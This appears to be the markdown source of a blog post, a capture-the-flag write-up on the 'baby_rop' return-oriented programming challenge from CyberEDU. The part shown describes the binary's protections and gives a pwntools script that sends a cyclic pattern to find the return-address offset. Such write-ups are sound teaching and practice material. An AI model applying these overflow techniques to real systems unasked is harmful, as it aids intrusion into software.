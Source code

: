 ```yaml
---
title: Solving a ROP Challenge the Easy Way
author: yakuhito
layout: post
image: /images/ecsc_ro.jpeg
category: blog
---
```


## Introduction
Since the [last article](/rop-with-one-gadget/) was written with the sole purpose of using one_gadget, it didn't present the most straight-forward solution for the baby_rop challenge. In this article, I'm going to present the easiest solution that I know of, mainly because I would like to have a template for the next baby ROP challenge I encounter.

## Mission Briefing

![Challenge Description](/images/baby_rop/desc.png)

Just to recap, the challenge can be found on [CyberEDU](https://cyberedu.ro/). The executable has NX enabled, but there's no stack canary and PIE is disabled.

## Finding RIP's Offset

We already know the app is going to crash if we input a string that is 1024 characters long. The following script will send a cyclic pattern that will help us get RIP's offset:

{% highlight python %}
from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

gdb.attach(io)

payload = b""
payload += cyclic(1024, n=8).encode()

io.sendline(payload)
io.interactive()
{% endhighlight %}
